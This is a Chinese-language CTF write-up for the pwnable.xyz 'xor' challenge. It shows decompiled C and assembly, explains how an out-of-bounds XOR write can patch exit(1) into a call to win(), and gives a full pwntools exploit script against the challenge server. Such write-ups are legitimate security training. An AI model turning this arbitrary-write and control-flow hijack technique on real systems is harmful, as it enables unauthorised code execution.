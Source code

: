 ```yaml
---
title: pwnable_xor
date: 2019-12-06 13:13:48
tags:
- pwn
- pwnable.xyz
---
```


# pwnable xor

首先看一下程序的情况：

![](https://i.loli.net/2019/12/06/M7RQmxNu2VP5jy9.png)

如果栈中开启Canary found，那么就不能用直接用溢出的方法覆盖栈中返回地址，而且要通过改写指针与局部变量、leak canary、overwrite canary的方法来绕过

所幸没有，可以通过栈溢出覆盖地址。

老规矩，反编译一下代码：

看一下`main`函数：

```c
// Address range: 0xa34 - 0xb1f
int main(int argc, char ** argv) {
    // 0xa34
    __readfsqword(40);
    puts("The Poopolator");
    setup();
    while (true) {
        int64_t v1 = 0; // bp-24
        printf((char *)&g8);
        int64_t v2; // bp-32
        int64_t v3; // bp-40
        int32_t items_assigned = scanf("%ld %ld %ld", &v3, &v2, &v1);
        if (v3 == 0) {
            // break -> 0xac3
            break;
        }
        if (v2 == 0) {
            // break -> 0xac3
            break;
        }
        int64_t v4 = v1;
        if (v4 == 0) {
            // break -> 0xac3
            break;
        }
        if (items_assigned == 3 != v4 < 10) {
            // break -> 0xac3
            break;
        }
        // 0xacd
        *(int64_t *)(8 * v4 + (int64_t)&g7) = v2 ^ v3;
        int64_t v5 = *(int64_t *)(8 * v4 + (int64_t)&g7);
        printf("Result: %ld\n", (int32_t)v5);
    }
    // 0xac3
    exit(1);
    // UNREACHABLE
}
```

可以看到一下语句可以利用一下：

`*(int64_t *)(8 * v4 + (int64_t)&g7) = v2 ^ v3;`

通过输入`v2`,`v3`,`v4`可以修改任意地址。

而我们的目的是调用`win`函数，所以需要调用到`win`的起始地址。

那我们来看一下`win函数：

```c
// Address range: 0xa21 - 0xa34
int64_t win(void) {
    // 0xa21
    return system("cat flag");	//显然是需要的操作。😄
}
```

```assembly
; function: win at 0xa21 -- 0xa34
0xa21:      55                           	push rbp
0xa22:      48 89 e5                     	mov rbp, rsp
0xa25:      48 8d 3d 78 01 00 00         	lea rdi, [rip + 0x178]
0xa2c:      e8 c7 fd ff ff               	call 0x7f8 <system>
0xa31:      90                           	nop 
0xa32:      5d                           	pop rbp
0xa33:      c3                           	ret 
```

所以需要调用到`win`的起始地址`0xa21`，

由于看到`win`函数正好有一个可以利用的地方`exit(1);`

所以可以通过修改这个的地址来调用`win`.

那思路就显而易见了。

### 过程：

首先通过输入`v2`,`v3`,`v4`来把`exit(1)`的汇编指令改成`call 0xa21`，

再次输入不符要求的`v2`,`v3`,`v4`即可跳转到`exit(1)`的位置，即可调用`win`函数。

### 代码：

```python
from pwn import *
from Crypto.Util.number import bytes_to_long
context.log_level = 'DEBUG'

e = ELF("./challenge")
r = remote("svc.pwnable.xyz", 30029)

exit_addr = 0xac8
win_addr = 0xa21
result_addr = 0x202200

e.asm(exit_addr, "call 0x%x"%win_addr)
input_num = e.read(exit_addr, 5)

input_num = bytes_to_long(input_num[::-1])	#change endian

v2 = 1
v3 = input_num^1
v4 = (exit_addr - result_addr) / 8

#r = process("./challenge")

r.sendlineafter("   ", "%d %d %d"%(v2, v3, v4))
r.sendlineafter("   ", "a")

r.interactive()

r.close()
```



